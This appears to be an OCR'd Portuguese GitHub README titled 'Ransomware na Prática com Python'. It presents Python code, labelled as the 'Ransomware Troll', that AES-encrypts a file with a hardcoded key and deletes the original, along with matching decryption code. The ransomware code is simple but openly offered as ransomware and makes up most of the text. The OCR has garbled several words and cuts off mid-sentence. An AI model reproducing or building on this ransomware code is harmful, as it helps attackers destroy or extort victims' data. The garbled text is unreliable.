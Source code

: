 # Ransomware
Ransomware na Prática com Python

# Pré-requisitos
Antes de executar os códigos de descrição e criptografia, é necessário ter o Python instalado em seu sistema. Além disso, você deve ter uma biblioteca pyaesinstalada. Você pode conectá-lo usando o comandopip install pyaes .

# Código de Descripción
Aqui está o código base que pode ser usado para descrever arquivos criptografados pelo Ransomware Troll:

import os
import pyaes

*Nome do arquivo criptografado*
file_name = "arquivo.txt.ransomwaretroll"

*Abrir o arquivo criptografado em modo de leitura binária*
file = open(file_name, "rb")
file_data = file.read()
file.close()

*Chave para descriptografia*
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

*Realizar a descriptografia*
decrypt_data = aes.decrypt(file_data)

*Remover o arquivo criptografado*
os.remove(file_name)

#*Criar o arquivo descriptografado*
new_file = "arquivo.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
-se de substituir "arquivo.txt.ransomwaretroll"pelo nome do arquivo criptografado real que você deseja descrever e"testeransomwares" pela chave correta de descritiva fornecida pelo atacante.

# Código de Criptografia
Aqui está o código base que pode ser usado para criptografar arquivos usando o Ransomware Troll:

import os
import pyaes

*Nome do arquivo a ser criptografado*
file_name = "arquivo.txt"

*Abrir o arquivo em modo de leitura binária*
file = open(file_name, "rb")
file_data = file.read()
file.close()

*Remover o arquivo original*
os.remove(file_name)

*Chave para criptografia*
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

*Realizar a criptografia*
crypto_data = aes.encrypt(file_data)

*Nome do novo arquivo criptografado*
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}', 'wb')
new_file.write(crypto_data)
new_file.close()
-se de substituir "arquivo.txt"pelo nome do arquivo que você deseja criptografar e"testeransomwares" pela chave correta de criptografia. O código criptografado será o arquivo selecionado e salvará uma versão criptografada com a extensão `.ransom
